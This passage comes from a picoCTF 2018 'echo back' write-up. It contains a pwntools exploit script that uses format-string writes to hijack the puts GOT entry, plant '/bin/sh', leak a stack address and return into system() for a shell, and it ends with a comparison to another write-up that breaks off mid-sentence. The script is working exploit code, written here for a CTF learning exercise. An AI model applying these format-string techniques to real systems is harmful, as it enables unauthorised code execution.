 ```python
	payload = gen_fmt_string_write_exploit_x86(src=src, dst=dst, dpn=13, buf_length=24) + "\n"
	p.send(payload)
	p.recvuntil("input your message:\n")

# On the last write I won't loop back to vuln, so I don't want to wait for the input message.
def do_last_write(src, dst):
	payload = gen_fmt_string_write_exploit_x86(src=src, dst=dst, dpn=13, buf_length=24) + "\n"
	p.send(payload)


p = spawn_process()

if debug:
	gdb.attach(p, '''
		break *0x080485F7
		continue
		''')

p.recvuntil("input your message:\n")
# 0x080485f7: right after the read() returns in vuln().

# start the loop, calling vuln from puts
do_a_write(src=p32(VULN_ADDR), dst=PUTS_GOT_ADDR)

# Put "/bin/sh" in the .bss section
do_a_write(src="/bin",dst=BINSH_ADDR)
do_a_write(src="/sh\x00",dst=BINSH_ADDR+4)

# Leak a stack address
payload = "%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n"
p.send(payload)
stack_addr_string = p.recv(10)
STACK_ADDR = int(stack_addr_string[2:],16)
RET_ADDR = STACK_ADDR + 0x90
log.info("stack address is " + hex(STACK_ADDR))
log.info("return address is at " + hex(RET_ADDR))
p.recvuntil("input your message:\n")

# return from vuln to system("/bin/sh")
do_a_write(src=p32(BINSH_ADDR),dst=RET_ADDR+4)
do_a_write(src=p32(SYSTEM_CALL_ADDR),dst=RET_ADDR)

# get puts to stop calling vuln so we can return from vuln
do_last_write(src=p32(RET_GADGET_ADDR),dst=PUTS_GOT_ADDR)

p.interactive()
```

### Comparison to Other Approaches

I learned quite a bit from [Dvd848](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/echo%20back.md), both in terms of design and implementation. For the design, this write-up author performs two simultaneous writes: the first overwrites the GOT entry for `puts` with the address of `vuln`, as I had done. The second write overwrites the GOT entry for `printf` in the GOT with that of `system` in the _Procedure Linkage Table_. Here's why that works:
